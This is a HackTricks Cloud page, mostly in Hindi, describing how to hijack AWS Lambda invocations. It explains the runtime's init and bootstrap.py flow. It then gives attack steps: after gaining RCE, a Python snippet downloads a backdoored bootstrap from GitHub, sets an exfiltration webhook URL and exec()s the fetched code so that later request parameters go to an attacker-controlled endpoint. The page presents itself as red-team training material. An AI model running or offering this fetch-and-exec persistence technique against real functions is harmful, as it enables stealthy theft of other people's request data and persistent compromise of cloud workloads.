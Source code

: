 # AWS - Steal Lambda Requests

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर होती है और **init** प्रक्रिया को **invocations** भेजती है।
2. init प्रक्रिया पोर्ट **9001** पर सुनती है और कुछ दिलचस्प endpoints को उजागर करती है:
* **`/2018-06-01/runtime/invocation/next`** – अगला invocation इवेंट प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invoke के लिए हैंडलर प्रतिक्रिया लौटाएं
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक निष्पादन त्रुटि लौटाएं
3. **bootstrap.py** में एक लूप होता है जो init प्रक्रिया से invocations प्राप्त करता है और उन्हें संभालने के लिए उपयोगकर्ता के कोड को कॉल करता है (**`/next`**).
4. अंत में, **bootstrap.py** init को **response** भेजता है

ध्यान दें कि bootstrap उपयोगकर्ता के कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता के कोड द्वारा किया गया कोई भी कोड निष्पादन वास्तव में इस प्रक्रिया में हो रहा है।

## Stealing Lambda Requests

इस हमले का उद्देश्य उपयोगकर्ता के कोड को एक दुर्भावनापूर्ण **`bootstrap.py`** प्रक्रिया को निष्पादित करना है जो कमजोर अनुरोध को संभालती है। इस तरह, **दुर्भावनापूर्ण bootstrap** प्रक्रिया **init प्रक्रिया** के साथ बात करना शुरू कर देगी ताकि अनुरोधों को संभाला जा सके जबकि **वैध** bootstrap **फंसा हुआ** रहेगा और init प्रक्रिया से अनुरोध नहीं करेगा।&#x20;

यह एक सरल कार्य है क्योंकि उपयोगकर्ता का कोड वैध **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित किया जा रहा है। इसलिए हमलावर कर सकता है:

* **वर्तमान invocation का नकली परिणाम init प्रक्रिया को भेजें**, ताकि init को लगे कि bootstrap प्रक्रिया अधिक invocations की प्रतीक्षा कर रही है।
* एक अनुरोध **`/${invoke-id}/response`** पर भेजा जाना चाहिए&#x20;
* invoke-id को वैध **`bootstrap.py`** प्रक्रिया के स्टैक से [**inspect**](https://docs.python.org/3/library/inspect.html) पायथन मॉड्यूल का उपयोग करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py) है) या बस इसे फिर से **`/2018-06-01/runtime/invocation/next`** से अनुरोध करके (जैसा कि [यहां प्रस्तावित](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py) है)।
* एक दुर्भावनापूर्ण **`boostrap.py`** निष्पादित करें जो अगले invocations को संभालेगा
* गुप्तता के उद्देश्यों के लिए, lambda invocations पैरामीटर को हमलावर द्वारा नियंत्रित C2 पर भेजना और फिर अनुरोधों को सामान्य रूप से संभालना संभव है।
* इस हमले के लिए, सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से **`bootstrap.py`** का मूल कोड प्राप्त करना, दुर्भावनापूर्ण कोड जोड़ना और इसे वर्तमान lambda invocation से चलाना पर्याप्त है।

### Attack Steps

1. एक **RCE** भेद्यता खोजें।
2. एक **दुर्भावनापूर्ण** **bootstrap** उत्पन्न करें (उदा. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **दुर्भावनापूर्ण bootstrap** निष्पादित करें।

आप आसानी से इन क्रियाओं को चलाकर कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>
{% endhint %}
